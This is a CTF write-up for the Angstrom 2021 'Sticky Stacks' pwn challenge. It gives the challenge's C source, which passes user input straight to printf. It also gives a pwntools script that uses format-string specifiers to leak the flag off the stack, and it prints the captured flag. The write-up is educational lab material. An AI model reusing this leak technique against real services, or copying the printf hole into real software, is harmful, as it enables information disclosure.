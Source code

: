 ```yaml
---
name: Sticky Stacks (2021)
event: Angstrom CTF 2021
category: Pwn
description: Writeup for Sticky Stacks (pwn) - Angstrom CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Sticky Stacks

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/2pqG6opzrug/0.jpg)](https://youtu.be/2pqG6opzrug?t=1706s "Angstrom 2021: Sticky Stacks")

## Challenge Description

> I made a program that holds a lot of secrets... maybe even a flag!

## Source

{% code overflow="wrap" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct Secrets {
    char secret1[50];
    char password[50];
    char birthday[50];
    char ssn[50];
    char flag[128];
} Secrets;

int vuln(){
    char name[7];

    Secrets boshsecrets = {
        .secret1 = "CTFs are fun!",
        .password= "password123",
        .birthday = "1/1/1970",
        .ssn = "123-456-7890",
    };

    FILE *f = fopen("flag.txt","r");
    if (!f) {
        printf("Missing flag.txt. Contact an admin if you see this on remote.");
        exit(1);
    }
    fgets(&(boshsecrets.flag), 128, f);

    puts("Name: ");
    fgets(name, 6, stdin);

    printf("Welcome, ");
    printf(name);
    printf("\n");

    return 0;
}

int main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    vuln();

    return 0;
}
```
{% endcode %}

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './stickystacks'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

flag = b""

# Let's fuzz x values
for i in range(33, 43):
    try:
        p = start()
        # Format the counter
        # e.g. %2$s will attempt to print [i]th pointer/string/hex/char/int
        p.sendlineafter(':', '%{}$p'.format(i))
        p.recvuntil('Welcome, ')
        # Receive the response
        result = p.recvuntil('\n')
        flag_segment = unhex(result.strip().decode()[2:])
        print(str(i) + ": " + str(flag_segment))
        flag += flag_segment[::-1]  # Reverse and decode
    except EOFError:
        pass

success(flag)
```
{% endcode %}

Flag: `actf{well_i'm_back_in_black_yes_i'm_back_in_the_stack_bec9b51294ead77684a1f593}`
